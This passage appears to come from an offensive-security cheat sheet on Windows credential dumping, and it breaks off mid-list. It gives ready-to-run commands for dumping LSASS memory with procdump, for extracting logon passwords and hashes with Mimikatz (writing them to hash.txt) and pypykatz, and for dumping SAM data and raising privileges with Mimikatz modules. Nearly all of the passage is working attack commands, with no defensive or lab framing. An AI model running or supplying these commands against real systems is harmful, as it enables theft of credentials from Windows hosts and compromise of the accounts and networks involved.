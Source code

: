 3. **Dump LSASS Memory for 64-bit systems:**

```cmd
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
```

#### Analyzing LSASS Dump with Mimikatz

1. **Load the LSASS Dump into Mimikatz for offline analysis**

```cmd
sekurlsa::minidump lsass.dmp
```

2. **Dump Full Logon Passwords from the Dump:**

```cmd
sekurlsa::logonPasswords full
```

3. **Execute and Save the output to a file**

```cmd
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit >> hash.txt
```

4. **Install Libesedb for parsing ESE Databases**

```cmd
apt install libesedb-utils
```

5. **Use Python Pypykatz for parsing LSASS Dump**

```cmd
pypykatz lsa minidump lsass.DMP
```

---

### Online vs Offline Credential Dumping

#### Online Credential Dumping

1. **Dump SAM Data**:

```cmd
lsadump::sam
```

2. **Grant Debug Privileges**:

```cmd
privilege::debug
```

3. **Get Current Token Info**:

```cmd
token::whoami
```

4. **Elevate Current Token**
